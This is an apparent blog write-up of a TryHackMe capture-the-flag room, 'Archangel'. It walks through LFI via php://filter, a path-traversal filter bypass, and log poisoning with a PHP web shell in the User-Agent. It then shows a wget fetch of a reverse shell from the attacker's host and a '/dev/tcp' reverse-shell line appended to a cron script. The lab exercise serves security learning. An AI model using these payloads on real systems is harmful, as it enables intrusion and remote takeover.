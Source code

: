 ```yaml
---
layout: post
title: Archangel
categories: Privesc
---
```

Hello guys and welcome to yet another writeup. This is ye another easy box on tryhackme and is accessible [here](https://tryhackme.com/room/archangel)
We shall tackle some awesome topics which include:
  1. LFI.
  2. Priviledge exploitation.
  3. Web exploitation.
With that said let us get right to it

# NMAP scan.
As usual we are gonna start of by scanning open ports on our machine.
![](https://i.ibb.co/ZVjYSZ9/nmap.png)

We are able to see that port 80 is open and is hosting a web application.
we are able to view a home page which does not have alot on it but we can see a type of hostname

![](https://i.ibb.co/YLJjDwK/wavefire.png)

We can actually use this and and it to our **/etc/hosts** file, then try and go to the page.
![](https://i.ibb.co/TWTBYN0/mafia.png)

# LFI.
Okay guys it is about to get really messy in here. Stay frosty.

So first of all we are going to FUZZ for hidden directories.
![](https://i.ibb.co/kQRKnYg/wfuzz.png)
And we get a hit for **robots.txt**. which when we visit the page looks something like this.
![](https://i.ibb.co/vv2SyZj/robots.png).

And we can actually see another directory **/test.php**. visit this page and we can view another page with a button.
![](https://i.ibb.co/VYM0RyP/control.png)
We can then see that the button redirects us to **?view=/var/www/html/development_testing/mrrobot.php**.

From here we can try to do a path traversal filter. After hours of trial and error I found this filter and it worked.
**php://filter/convert.base64-encode/resource=**
Okay so now we can see some base64 code 
let us try and change **mrrobot.php** to **test.php**. And we can see some more base64. let us decode that.

![](https://i.ibb.co/pnGV1tK/testbase64.png)
![](https://i.ibb.co/944fSfv/lfiflag.png)

And we can get a flag but also we can see some php filters on it.
# Acesslog
Okay so the filter dictates that using **../..** which we can easily bypasss by using **..//..**

Next let us try and view the access log using the bypass.

![](https://i.ibb.co/f98gBfQ/accesslog.png)

So next we can try and pass some malicious code to the user agent. **<?php system($_GET['cmd']); ?>**.
So to do this follow this steps.

 1. right click and press Inspect on the dropdown menu.
 2. click on the Network option and reload the page
 3. Hit resend.
 4. scroll to the user agent and replace with the malicious code.
 5. Hit send.

Smooth so next up let us try and execute some commands on it.
let us try and add **&cmd=ls** to the end of the url.

![](https://i.ibb.co/WWmnG2H/cmd-ls.png)

We can actually run commands on it. so next let us try and get a reverse shell.

# SHELL
So we are going to get a sample php reverseshell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
Next we are going to set up a python server on our machine. 
Next we are going to run **&cmd=wget http://ip/revshell.php**
We should be able to get a 200 code on our machin e.
![](https://i.ibb.co/4jKLJfz/httpserver.png)

next start up a listener on your machine
Then run **&cmd=php revshell.php**
going back to our listener we have a shell.

![](https://i.ibb.co/gzQvS34/nc.png)


# Switch user.

So next we can get a better shell by using **python3 -c "import pty;pty.spawn('/bin/bash -i')"**

Then we can check out the cron jobs **cat /etc/crontab**

We can actually see that a job runs as archangel every minute. Which we can read and write.
So we then run **echo "bash -i >& /dev/tcp/ip/1235 0>&1" >> /opt/helloworld.sh**

Then run another listener and wait for a minute. Coffee break.



